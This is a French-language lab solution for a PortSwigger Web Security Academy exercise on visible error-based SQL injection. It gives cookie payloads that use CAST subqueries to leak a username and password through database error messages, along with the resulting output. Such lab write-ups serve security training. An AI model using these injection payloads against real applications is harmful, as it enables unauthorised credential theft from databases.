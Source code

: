 # Lab

https://portswigger.net/web-security/sql-injection/blind/lab-sql-injection-visible-error-based

## Solution

Le cookie `TrackingId` est vulnérable à une injection SQL. On peut le vérifier en envoyant la requête suivante :

```http
Cookie: TrackingId=';
```

On obtient l'erreur suivante :

```
Unterminated string literal started at position 36 in SQL SELECT * FROM tracking WHERE id = '''. Expected  char
```

Si on essaie avec `'--` on a plus l'erreur, donc le SQL est bien injecté.

Puisque les erreurs sont visibles, on peut utiliser le texte de retour pour récupérer des données.

```http
Cookie: TrackingId=' AND 1=CAST((SELECT username FROM users LIMIT 1) AS int)--
```

On obtient l'erreur suivante :

```
ERROR: invalid input syntax for type integer: "administrator"
```

Maintenant on récupère le mot de passe :

```http
Cookie: TrackingId=' AND 1=CAST((SELECT password FROM users LIMIT 1) AS int)--
```

On obtient l'erreur suivante :

```
ERROR: invalid input syntax for type integer: "svuuh15ihql7dssqadql"
```
